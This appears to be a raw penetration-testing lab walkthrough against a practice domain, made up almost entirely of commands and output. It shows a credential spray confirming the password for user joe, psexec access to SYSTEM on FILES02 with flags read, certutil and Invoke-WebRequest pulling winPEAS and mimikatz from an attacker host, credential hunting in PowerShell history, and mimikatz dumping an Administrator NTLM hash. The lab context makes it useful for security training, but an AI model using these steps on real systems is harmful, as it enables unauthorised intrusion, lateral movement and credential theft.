 SMB         172.16.219.82   445    CLIENT01         [*] Windows 11 Build 22000 x64 (name:CLIENT01) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.219.83   445    CLIENT02         [*] Windows 11 Build 22000 x64 (name:CLIENT02) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.219.10   445    DC01             [+] medtech.com\joe:Flowers1 
SMB         172.16.219.11   445    FILES02          [+] medtech.com\joe:Flowers1 (Pwn3d!)
SMB         172.16.219.12   445    DEV04            [+] medtech.com\joe:Flowers1 
SMB         172.16.219.13   445    PROD01           [+] medtech.com\joe:Flowers1 
SMB         172.16.219.82   445    CLIENT01         [+] medtech.com\joe:Flowers1 
SMB         172.16.219.83   445    CLIENT02         [+] medtech.com\joe:Flowers1 
...

# Lets try smbexec
proxychains impacket-smbexec medtech/joe@172.16.219.11
Password: Flowers1
proxychains impacket-psexec joe:Flowers1@172.16.219.11
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>hostname
FILES02
C:\Windows\system32>type C:\Users\Administrator\Desktop\proof.txt
b7c78e2cbd8ac3719174d61dfed42d77
C:\Users\joe\Desktop> type local.txt
430fa7151cd2ae0f950243a7ba2f1889


proxychains -q xfreerdp /u:joe /p:Flowers1 /d:medtech.com  /v:172.16.219.11
# From the Joe desktop there is a local file, which are one of the flag
type local.txt
430fa7151cd2ae0f950243a7ba2f1889

C:\TEMP> certutil.exe -urlcache -f http://192.168.45.195:8088/Windows/winPEASx64.exe C:\Temp\winpeas.exe
C:\TEMP> ./winpeas.exe
...

...
# Powershell Console Host History
PS C:\TEMP> cat C:\Users\wario\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
$username='wario';
$credential = New-Object System.Management.Automation.PSCredential $username,$secureString;
New-PSSession -ComputerName 172.16.50.83 -Credential $credential 
New-PSSession -ComputerName CLIENT02 -Credential $credential 
hostname
exit
```
# Check Mimikatz can retrieve any users
PS C:\TEMP> iwr -uri http://192.168.45.195:8088/Windows/mimikatz.exe -Outfile mimi.exe
mimikatz # privilege::debug
Privilege '20' OK
...
         * Username : Administrator
         * Domain   : FILES02
         * NTLM     : f1014ac49bae005ee3ece5f47547d185
...
